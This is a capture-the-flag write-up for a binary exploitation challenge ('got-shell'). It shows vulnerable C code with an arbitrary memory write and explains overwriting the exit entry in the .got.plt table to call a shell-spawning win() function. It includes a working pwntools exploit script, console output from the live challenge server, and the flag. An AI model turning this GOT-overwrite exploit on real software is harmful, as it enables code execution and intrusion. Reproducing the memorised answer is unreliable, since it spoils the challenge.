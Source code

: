 # got-shell 
Binary Exploitation, 350 points

## Description:
> Can you authenticate to this service and get the flag?

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

void win() {
  system("/bin/sh");
}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];
  
  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);
  
  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);
  
}
```

## Solution:

The program kindly allows us to write an arbitrary DWORD to an arbitrary address. With this write, we are supposed to be able to access the flag. Luckily, we have a function (`win()`) that when called, will give us a shell. So, we just need to find a way to call it.

To do that, we'll override the .got.plt entry for `exit` with the address of `win`. Then, when the program wants to call `exit`, it will jump to the the overridden entry and execute `win` instead.

A good explanation about what is the `.got.plt` can be found [here](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html). Quoting from the blog post:
> .got: 
    This is the GOT, or Global Offset Table. This is the actual table of offsets as filled in by the linker for external symbols.

> .plt:
    This is the PLT, or Procedure Linkage Table. These are stubs that look up the addresses in the .got.plt section, and either jump to the right address, or trigger the code in the linker to look up the address. (If the address has not been filled in to .got.plt yet.)

> .got.plt:
    This is the GOT for the PLT. It contains the target addresses (after they have been looked up) or an address back in the .plt to trigger the lookup. Classically, this data was part of the .got section.



The script:
```python
from pwn import *

PROGRAM = "./auth"

e = ELF(PROGRAM)

r = remote("2018shell3.picoctf.com", 54664)
log.info("Address of 'exit' .got.plt entry: {}".format(hex(e.got['exit'])))
log.info("Address of 'win': {}".format(hex(e.symbols['win'])))
r.sendlineafter("Where would you like to write this 4 byte value?", hex(e.got['exit']))
print r.recvline()
r.sendline(hex(e.symbols['win']))

r.interactive()
```

The output:
```console
root@kali:/media/sf_CTFs/pico/got-shell# python exploit.py
[*] '/media/sf_CTFs/pico/got-shell/auth'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 2018shell3.picoctf.com on port 54664: Done
[*] Address of 'exit' .got.plt entry: 0x804a014
[*] Address of 'win': 0x804854b


[*] Switching to interactive mode
Okay, now what value would you like to write to 0x804a014
Okay, writing 0x804854b to 0x804a014
Okay, exiting now...

$ ls
auth
auth.c
flag.txt
xinet_startup.sh
$ cat flag.txt
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_150b198c}
$ exit
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to 2018shell3.picoctf.com port 54664
[*] Got EOF while sending in interactive
```

The flag: picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_150b198c}